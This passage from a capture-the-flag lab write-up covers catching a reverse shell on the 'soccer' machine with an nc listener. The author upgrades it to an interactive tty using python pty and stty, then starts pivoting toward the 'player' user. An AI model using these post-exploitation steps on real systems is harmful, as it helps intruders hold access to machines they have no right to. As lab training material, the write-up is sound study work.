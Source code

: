 ![Untitled](./images/Untitled8.png)

The `curl` command will hang for a while, but eventually, I can see the reverse shell coming into my `nc` listener. Next, I’ll upgrade my shell to a proper `tty`. This will make the reverse shell behave like an actual terminal. And prevent me from accidentally closing the session.

```bash
.www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
[1]  + 10873 suspended  nc -lnvp 8888

┌──(vagrant㉿kali)-[/vagrant]
└─$ stty raw -echo; fg                                                                                                                         148 ⨯ 1 ⚙
[1]  + 10873 continued  nc -lnvp 8888

www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$
```

## Pivoting to the player user

The reverse connection allows me to browse the upload directory and see that the files match what I observed earlier via the `Tiny File Manager` . But there aren’t any other exciting files in `/var/www/html`. Although it does seem like there’s one more user on the system called player.
